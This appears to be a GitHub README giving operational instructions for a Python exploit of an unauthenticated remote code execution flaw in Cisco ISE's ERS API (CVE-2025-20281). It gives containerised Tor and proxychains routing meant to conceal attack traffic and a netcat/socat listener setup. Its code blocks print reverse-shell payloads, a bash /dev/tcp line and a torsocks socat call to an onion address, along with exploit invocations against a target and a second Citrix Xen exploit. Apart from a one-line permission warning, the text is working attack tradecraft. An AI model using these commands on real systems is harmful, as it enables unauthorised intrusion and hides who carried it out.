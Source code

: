 ## CVE-2025-20281 Unauthenticated PoC - as an example

NOTE: Each exploit is different and might require other dependencies that will need to be installed during the build phase.

##

A minimal Python proof-of-concept that exploits the unauthenticated RCE in Cisco ISE’s ERS API (CVE-2025-20281) by injecting arbitrary shell commands into the `InternalUser` resource.

> **Warning:** Only run against systems you own or have explicit permission to test.

### Features

- No authentication required
- Supports two modes:
  - `--whoami` to run `whoami` on the target and display the HTTP response
  - `--reverse` to spawn a bash reverse shell back to your listener

### Modify the url variable in script to the correct IP/Port

After conducting recon (see ttps/1_Recon/scanners) to find vulnerable Cisco ISE’s ERS API targets IP and Port, the next step would be to attempt exploitation.

```python
# line 15/16
#url = f"https://{target}:9060/ers/sdk#_"
url = f"https://{target}/ers/sdk#_"
#url = f"https://{target}:8443/ers/sdk#_"
```

### Build, Run, and test Tor/Proxychains

```bash
# change dns, using quad9 - change this to nameserver other than ISP
sudo mv /etc/resolv.conf /etc/resolv.conf.bak
sudo touch /etc/resolv.conf
echo -ne 'nameserver 9.9.9.9\nnameserver 149.112.112.112' | sudo tee -a /etc/resolv.conf

# build image
podman build -t <some_name> .

# runtime exploit with all tools needed to conceal ingress/egress
podman run -it --name <some_name> \
    --cap-add=net_admin \
    --device /dev/net/tun \
    -v /etc/resolv.conf:/etc/resolv.conf:ro \
    -p 127.0.0.1:8118:8118 -p 127.0.0.1:9050:9050 -p 127.0.0.1:9051:9051 \
    -d <some_name>

podman exec -it <some_name> /bin/bash

# verify traffic is routing through tor
curl --socks5 localhost:9050 --socks5-hostname localhost:9050 https://check.torproject.org/api/ip
curl --socks5 127.0.0.1:9050 --socks5-hostname localhost:9050 http://checkip.amazonaws.com/

# IDS hits from local interface to verify tor routing
ET TOR Known Tor Relay/Router (Not Exit) Node Traffic group 116 [**] [Classification: Misc Attack] [Priority: 2] {TCP} 89.58.41.156:143 -> 192.168.1.248:56096
ET TOR Known Tor Relay/Router (Not Exit) Node Traffic group 188 [**] [Classification: Misc Attack] [Priority: 2] {TCP} 148.113.183.0:9001 -> 192.168.1.248:59218
ET TOR Known Tor Relay/Router (Not Exit) Node Traffic group 516 [**] [Classification: Misc Attack] [Priority: 2] {TCP} 77.73.70.176:443 -> 192.168.1.248:45074
ET TOR Known Tor Relay/Router (Not Exit) Node Traffic group 606 [**] [Classification: Misc Attack] [Priority: 2] {TCP} 94.16.123.67:443 -> 192.168.1.248:37934

# verify proxychains
proxychains curl http://checkip.amazonaws.com/

# verify privoxy, you can also route your host browser through this container on tor
curl -Lx http://127.0.0.1:8118 http://checkip.amazonaws.com/
```
<p align="center">
<img src=".img/firefox-proxy.png" alt="reverse-shell" />
</p>

### Listener Example
##

<p align="center">
<img src=".img/rshell-example.png" alt="reverse-shell" />
</p>

```bash
# open shell
podman exec -it <some_name> /bin/bash

# set vars
LHOST=<your ip>
LPORT=<port for reverse shell>

## listening port examples
# basic
nc -lvnp $LPORT

# better
rlwrap nc -lvnp $LPORT
```

### Route Reverse Shell through Tor
##

<p align="center">
<img src=".img/architecture.png" alt="arch" />
</p>

```bash
### through tor

# open shell to set vars
podman exec -it <some_name> /bin/bash

####### line 107/108 - Dockerfile ########
# echo 'HiddenServiceDir /var/lib/tor/hidden_service/' >>/etc/tor/torrc ; \
# echo 'HiddenServicePort 4444 127.0.0.1:4444' >>/etc/tor/torrc ; \
LPORT=4444 # the port set in line 108
LHOST=$(cat /var/lib/tor/hidden_service/hostname)
RSHELL="socat file:$(tty),raw,echo=0 TCP-L:$LPORT"

# you can also run torproxy.sh script to change port
# Options (fields in '[]' are optional, '<>' are required):
#    -h          This help
#    -b \"\"       Configure tor relaying bandwidth in KB/s
#                possible arg: \"[number]\" - # of KB/s to allow
#    -e          Allow this to be an exit node for tor traffic
#    -l \"<country>\" Configure tor to only use exit nodes in specified country
#                required args: \"<country>\" (IE, "US" or "DE")
#                <country> - country traffic should exit in
#    -n          Generate new circuits now
#    -p \"<password>\" Configure tor HashedControlPassword for control port
#    -s \"<port>;<host:port>\" Configure tor hidden service
#                required args: \"<port>;<host:port>\"
#                <port> - port for .onion service to listen on
#                <host:port> - destination for service request

podman exec -it <some_name> bash -c '/usr/bin/torproxy.sh -s \"<port>;<host:port>\"'

# open seperate shell in term
podman exec <some_name> /bin/bash
$RSHELL # begin listener

# execute exploit in another shell
podman exec <some_name> /bin/bash

# cmd on target
# get tor hostname
echo $LHOST
a2w6cyja3wtgn5mzbvj4vgmypezg66dar2aw6ylbkwpfv7wmz3udsnid.onion
torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:a2w6cyja3wtgn5mzbvj4vgmypezg66dar2aw6ylbkwpfv7wmz3udsnid.onion:4444

# should get HTTP response back, after discovery probe
proxychains python3 CVE-2025-20281.py XXX.XXX.XX.XXX --whoami

# execute exploit to spawn a reverse shell
proxychains python3 CVE-2025-20281.py XXX.XXX.XX.XXX --reverse a2w6cyja3wtgn5mzbvj4vgmypezg66dar2aw6ylbkwpfv7wmz3udsnid.onion 4444

# another example different exploit
proxychains python3 exploit-citrix-xen.py -t XXX.XX.XXX.XXX -p XXXX -c "/bin/bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1"

# tor/socat would have to be on the target
proxychains python3 exploit-citrix-xen.py -t XXX.XX.XXX.XXX -p XXXX \
  -c "torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:a2w6cyja3wtgn5mzbvj4vgmypezg66dar2aw6ylbkwpfv7wmz3udsnid.onion:4444"
```

### Teardown
##
```bash
podman stop <some_name>
podman system prune -f
```

This concludes an example of how to route traffic through tor along with using proxychains when executing exploit testing.

